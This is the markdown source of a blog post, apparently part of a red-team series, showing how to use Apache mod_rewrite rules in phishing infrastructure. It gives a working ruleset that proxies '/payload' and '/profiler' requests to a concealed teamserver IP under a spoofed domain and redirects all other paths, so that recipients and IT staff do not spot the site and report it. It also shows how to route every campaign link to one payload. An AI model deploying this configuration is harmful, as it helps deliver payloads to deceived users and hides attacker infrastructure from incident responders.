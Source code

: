 ```yaml
---
layout: post
title: Invalid URI Redirection with Apache mod_rewrite
summary: How to redirect users visiting non-existent file paths in your phishing infrastructure to a different site.
image: /assets/apache/invalid-uri-demo.gif
tags: 
- mod_rewrite
- phishing
commentIssueId: 8
---
```


There have been times when a curious phish recipient or a zealous help desk staff has loaded the phishing link in their browser and decided to take a peek at a higher directory or the root domain. Of course, most times there isn't much else site to see. In those cases, the chances of being reported to IR went up significantly, sometimes leading to a phishing campaign being blocked. This is where invalid URI redirection comes in handy.

We can whitelist resources the Apache server will proxy for the targets and redirect any other requests to the target's real domain or another page of our choosing.

In the demo below, the user navigates to *spoofdomain.com/really/long/url.html* and is served a page; however, when the user navigates to *spoofdomain.com/really/* the browser is redirected to *google.com*.

![Invalid URI Redirection Demo](/assets/apache/invalid-uri-demo.gif)

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
RewriteEngine On<br>
RewriteCond <span style="color: dodgerblue">%{REQUEST_URI}</span> <span style="color: mediumseagreen">^/(profiler|payload)/?$</span> <span style="color: mediumpurple">[NC,OR]</span><br>
RewriteCond <span style="color: dodgerblue">%{HTTP_REFERER}</span> <span style="color: mediumseagreen">^http://SPOOFED-DOMAIN\.com</span> <span style="color: mediumpurple">[NC]</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">http://TEAMSERVER-IP<span style="color: dodgerblue">%{REQUEST_URI}</span></span> <span style="color: tomato">[P]</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">http://REDIRECTION-URL.com/</span><span style="color: mediumvioletred">?</span> <span style="color: tomato">[L,R=302]</span>
</div>

Line by line explanation:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
Enable the rewrite engine<br>
<span style="color: dodgerblue">If the request's URI </span> <span style="color: mediumseagreen">is either '/profiler' or '/payload' (with an optional trailing slash), </span> <span style="color: mediumpurple"> ignoring case; OR </span><br>
<span style="color: dodgerblue">If the request's referer </span> <span style="color: mediumseagreen">starts with 'http://SPOOFED-DOMAIN.com', </span> <span style="color: mediumpurple">ignoring case</span><br>
<span style="color: gold">Change the entire request </span> <span style="color: orange">to serve the </span><span style="color: dodgerblue">original request path </span><span style="color: orange">from the teamserver's IP, </span> <span style="color: tomato">and keep the user's address bar the same (obscure the teamserver's IP).</span><br>
If the above conditions are not met, <span style="color: gold">change the entire request</span> <span style="color: orange"> to http://REDIRECTION-URL.com/ </span><span style="color: mediumvioletred">and drop any query strings from the original request. </span> <span style="color: tomato">Do not evaluate further rules and redirect the user, changing their address bar.</span>
</div>

There are two handy mod_rewrite regex strings being used in this ruleset. The first is the `/?$` string on line two. In the RewriteCond context, the question mark indicates that the previous character, the trailing slash in the example, is optional. Without this regex, RewriteCond would only match the path exactly as written in the ruleset. The dollar sign signifies the end of the URI, meaning the request */payload1* would not match.

The second useful regex is the question mark in the last line. In the RewriteRule context, the question mark tells Apache to drop the query string from the redirected request. 

Since the Proxy `[P]` flag is set on the first RewriteRule, the address bar will still show the original domain name and just append the requested URI to the end of the address. Conversely, if the request doesn't match either condition, the request will be redirected and the address bar will update and show companydomain.com.


A similar use for this redirection would be to redirect all request URIs to one payload. For instance, if you were phishing users in different departments and each email scenario's link was unique you could redirect all users to a single payload without needing to stand up separate copies. To achieve this, simply remove the `$` from the first RewriteCond line. Now the rule will match */profiler* and */profiler/humanresources/legitimatepage.html*.

Redirecting requests with invalid URIs can help a phishing website pass the sniff test for prying recipients or IT. By redirecting non-existent resources users won't reach any index listings or 404 errors on pages that should logically exist. 

# Strengthen Your Phishing with Apache mod_rewrite Posts

* [Strengthen Your Phishing with Apache mod_rewrite and Mobile User Redirection]({{site.baseurl}}/2016-03-22-strengthen-your-phishing-with-apache-mod_rewrite-and-mobile-user-redirection/)
* Invalid URI Redirection
* [Operating System Based Redirection with Apache mod_rewrite]({{site.baseurl}}/2016-04-05-operating-system-based-redirection-with-apache-mod_rewrite/)
* [Combatting Incident Responders with Apache mod_rewrite]({{site.baseurl}}/2016-04-12-combatting-incident-responders-with-apache-mod_rewrite/)
* [Expire Phishing Links with Apache RewriteMap]({{site.baseurl}}/2016-04-19-expire-phishing-links-with-apache-rewritemap/)

{:#resources}

# Resources

* [mod-rewrite-cheatsheet.com](http://mod-rewrite-cheatsheet.com)
* [Official Apache 2.4 mod_rewrite Documentation](http://httpd.apache.org/docs/current/rewrite/)
	* [Apache mod_rewrite Introduction](https://httpd.apache.org/docs/2.4/en/rewrite/intro.html)
* [An In-Depth Guide to mod_rewrite for Apache](http://code.tutsplus.com/tutorials/an-in-depth-guide-to-mod_rewrite-for-apache--net-6708)